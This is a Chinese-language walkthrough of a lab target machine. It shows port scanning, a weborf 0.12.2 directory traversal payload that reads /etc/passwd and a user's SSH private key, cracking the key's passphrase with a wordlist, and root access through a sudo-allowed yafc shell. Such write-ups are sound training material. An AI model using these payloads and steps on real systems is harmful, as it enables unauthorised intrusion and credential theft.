

## 靶机地址

[Proton Drive](https://drive.proton.me/urls/V0CPKF3BZW#Qc8GsNOxJNfn)


## 信息收集

### nmap扫描

#### 准备阶段

```
mkdir nmapscan
```


创建文件夹用来存放nmap扫描结果


#### 主机探测

```
nmap -sn 192.168.1.0/24
```


#### 端口扫描

```
nmap -sT --min-rate 10000 -p- 192.168.1.6 -oA ./nmapscan/ports
```


开放了：

- 22 ssh
- 80 http
- 8080 http-proxy


#### 提取端口信息

```
ports
```


#### 详细结果扫描

```
nmap -sC -sT -p 22,80,8080 -O 192.168.1.6 -oA ./nmapscan/detail
```


分析：

- 22 ssh
- 80 http
- 8080 http-proxy
- webofr


#### UDP扫描

```
nmap -sU --top-ports 20 192.168.1.6 -oA ./nmapscan/udp
```


### 80端口

#### 访问192.168.1.67


apache主页

查看源码，无内容


#### dirsearch目录扫描

```
dirsearch -u 192.168.1.6
```


无结果


#### gobuster目录扫描

```
gobuster dir -u http://192.168.1.6 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```


无结果


### 8080端口

#### 访问192.168.1.6:8080


weborf/0.12.2


#### 搜索相关漏洞

```
searchsploit weborf
```


存在目录遍历漏洞


#### 保存漏洞

```
searchsploit -m linux/remote/14925.txt
cat 14925.txt
```


#### 利用给出的payload

```
/..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```


成功读取/etc/passwd

有一个普通用户tim


#### 构造payload读取tim的私钥

```
/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2ftim%2f.ssh%2fid_rsa
```


#### 保存到本地

```
wget http://192.168.1.6:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2ftim%2f.ssh%2fid_rsa -O id_r
sa
cat id_rsa
```


### 22端口

#### 修改私钥权限

```
chmod 600 id_rsa
```


#### 尝试登录

```
ssh tim@192.168.1.6 -i id_rsa
```


失败

需要密码


#### 利用RSAcrack爆破rsa

```
RSAcrack -k id_rsa -w /usr/share/wordlists/rockyou.txt
```


得到tim密码

- ilovetim


#### ssh登录

```
ssh tim@192.168.1.6 -i id_rsa
```


成功登录


## 提权

### 得到第一个flag

```
ls
cat user.txt
```


### 执行sudo权限

```
sudo -l
```



无密码执行yafc


### 执行yafc

```
sudo yafc
help
```


存在shell


### 执行shell

```
shell
```


成功提权


### 得到第二个flag

```
cd /root
ls
cat root.txt
```

